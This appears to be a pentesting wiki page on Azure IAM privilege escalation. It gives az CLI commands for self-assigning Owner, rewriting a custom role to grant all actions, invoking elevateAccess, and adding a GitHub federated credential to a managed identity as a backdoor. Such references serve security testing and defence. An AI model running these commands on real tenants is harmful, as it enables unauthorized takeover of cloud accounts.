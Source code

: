 # Az - Azure IAM Privesc (Authorization)

## Azure IAM

Fore more information check:

[[../az-services/az-azuread.md]]

### Microsoft.Authorization/roleAssignments/write

This permission allows to assign roles to principals over a specific scope, allowing an attacker to escalate privileges by assigning himself a more privileged role:

```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```

### Microsoft.Authorization/roleDefinitions/Write

This permission allows to modify the permissions granted by a role, allowing an attacker to escalate privileges by granting more permissions to a role he has assigned.

Create the file `role.json` with the following **content**:

```json
{
  "roleName": "<name of the role>",
  "Name": "<name of the role>",
  "IsCustom": true,
  "Description": "Custom role with elevated privileges",
  "Actions": ["*"],
  "NotActions": [],
  "DataActions": ["*"],
  "NotDataActions": [],
  "AssignableScopes": ["/subscriptions/<subscription-id>"],
  "id": "/subscriptions/<subscription-id>/providers/Microsoft.Authorization/roleDefinitions/<role-id>",
}
```

Then update the role permissions with the previous definition calling:

```bash
az role definition update --role-definition role.json
```

### Microsoft.Authorization/elevateAccess/action

This permissions allows to elevate privileges and be able to assign permissions to any principal to Azure resources. It's meant to be given to Entra ID Global Administrators so they can also manage permissions over Azure resources.

> [!TIP]
> I think the user need to be Global Administrator in Entrad ID for the elevate call to work.

```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```

### Microsoft.ManagedIdentity/userAssignedIdentities/federatedIdentityCredentials/write

This permission allows to add Federated credentials to managed identities. E.g. give access to Github Actions in a repo to a managed identity. Then, it allows to **access any user defined managed identity**.

Example command to give access to a repo in Github to the a managed identity:

```bash
# Generic example:
az rest --method PUT \
  --uri "https://management.azure.com//subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>/federatedIdentityCredentials/<name-new-federated-creds>?api-version=2023-01-31" \
  --headers "Content-Type=application/json" \
  --body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:<org-name>/<repo-name>:ref:refs/heads/<branch-name>","audiences":["api://AzureADTokenExchange"]}}'

# Example with specific data:
az rest --method PUT \
  --uri "https://management.azure.com//subscriptions/92913047-10a6-2376-82a4-6f04b2d03798/resourceGroups/Resource_Group_1/providers/Microsoft.ManagedIdentity/userAssignedIdentities/funcGithub-id-913c/federatedIdentityCredentials/CustomGH2?api-version=2023-01-31" \
  --headers "Content-Type=application/json" \
  --body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:carlospolop/azure_func4:ref:refs/heads/main","audiences":["api://AzureADTokenExchange"]}}'
```

